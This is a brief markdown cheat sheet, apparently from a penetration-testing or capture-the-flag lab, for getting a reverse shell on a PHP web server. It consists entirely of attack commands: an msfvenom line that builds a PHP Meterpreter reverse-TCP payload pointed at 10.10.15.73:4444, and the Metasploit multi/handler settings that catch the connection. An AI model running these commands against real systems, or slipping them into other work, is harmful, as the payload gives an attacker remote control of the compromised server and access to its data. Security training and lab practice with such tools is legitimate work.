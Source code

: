 
## Create a shell

> sudo msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.15.73 LPORT=4444 -f raw > /home/kali/msfshelly.php



## Receive a reverse shell

> msfconsole 

```
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set lhost 10.10.15.73
set lport 4444
run 
```
